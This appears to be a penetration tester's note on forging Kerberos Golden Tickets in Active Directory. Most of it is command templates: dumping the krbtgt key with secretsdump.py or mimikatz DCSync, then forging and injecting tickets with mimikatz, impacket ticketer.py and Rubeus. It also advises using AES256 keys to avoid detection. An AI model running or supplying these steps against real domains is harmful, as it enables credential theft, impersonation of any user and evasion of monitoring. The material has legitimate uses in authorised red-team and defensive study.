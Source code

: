 #impacket #mimikatz 
- TGTs are encrypted with the `krbtgt`'s key derived from it's password.
- `krbtgt` account password is not rotated automatically. Microsoft's best practice is to rotate every 6 months, which is more than enough time to maintain persistence.
- Password history for `krbtgt` account is maintained by the DC.
- If we get hold of this key, we can forge TGTs for any user subsequently getting access to any service as any user. These tickets are called Golden Tickets.
- This can be done using dumping credential of the domain controller or via [[DCSync]] attack.
- This can also be done by dumping the NTDS.dit file locally.
- Using impacket's secretsdump.py:
```bash
secretsdump.py 'mydomain.local/drdragon@192.168.2.2' -just-dc-user krbtgt
```
### Mimikatz
```powershell
kerberos::golden 
	/User:Administrator # user for which the TGT is generated
	/domain:<domain-FQDN>
	/sid:<domain-sid>
	/aes256:<aes256-kerberos-key>
	/id:<id> # Optional user RID. User ID should match the RID of the username specified above
	/groups:<group> # optional group ids
	/startoffset:0 # ticket availibity starts now. a negetive number means the ticket was available from past.
	/endin:600 # optional ticket lifetime (defautl is 10 years). Default AD settings for lifetime is 10 hours (600 minutes)
	/renewmax:10080 # Optional ticket lifeitme in minutes. Default AD setting is 7 days = 100800 minutes
	[/ptt(injects TGT in memory)|/ticket(saves ticket to file)]
```
### Impacket
```bash
ticketer.py -domain-sid <domainSID> -domain mydomain.local -aes <aesKey> Administrator
# This will create the TGT for the Administrator user and save it in Administrator.ccache
```
### Rubeus
```powershell
# Creates command for golden ticket by fetching information from DC using ldap
Rubeus.exe
	golden
	/aes256:<key> # AES256 key of the krbtgt account
	/ldap # make ldap query to fetch all information
	/user:Administrator # User for which golden ticket is creates
	/ptt # injects the ticket in memory
	[/printcmd] # prints the command for creating golden ticket manually using details fetched using ldap
```

---
- AES256 keys should be used to avoid any alerts or detection.
- AES keys for `krbtgt` account can also be obtained by perfoming [[DC Sync]]
```powershell
# mimikatz
lsadump::dcsync /user:dcorp\krbtgt
```